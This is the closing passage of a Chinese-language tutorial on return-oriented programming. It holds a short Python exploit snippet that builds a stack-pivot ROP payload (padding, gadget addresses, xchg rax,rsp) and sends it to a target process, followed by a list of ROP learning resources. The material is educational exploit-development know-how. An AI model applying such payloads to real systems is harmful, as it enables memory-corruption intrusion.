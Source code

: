 ```python
payload_2  = "A" * 40
payload_2 += p64(pop_rax)
payload_2 += p64(leakaddr)
payload_2 += p64(xchg_rax_rsp)

io.sendline(payload_2)
print io.recvall()
```

这样基本的 ROP 也就介绍完了，更高级的用法会在后面的章节中再介绍，所谓的高级，也就是 gadgets 构造更加巧妙，运用操作系统的知识更加底层而已。

## 更多资料

- [ROP Emporium](https://ropemporium.com)
- [一步一步学 ROP 系列](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)
- [64-bit Linux Return-Oriented Programming](http://crypto.stanford.edu/~blynn/rop/)
- [Introduction to return oriented programming (ROP)](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html)
- [Return-Oriented Programming:Systems, Languages, and Applications](https://cseweb.ucsd.edu/~hovav/dist/rop.pdf)
- [Practical Return-Oriented Programming](https://trailofbits.files.wordpress.com/2010/04/practical-rop.pdf)
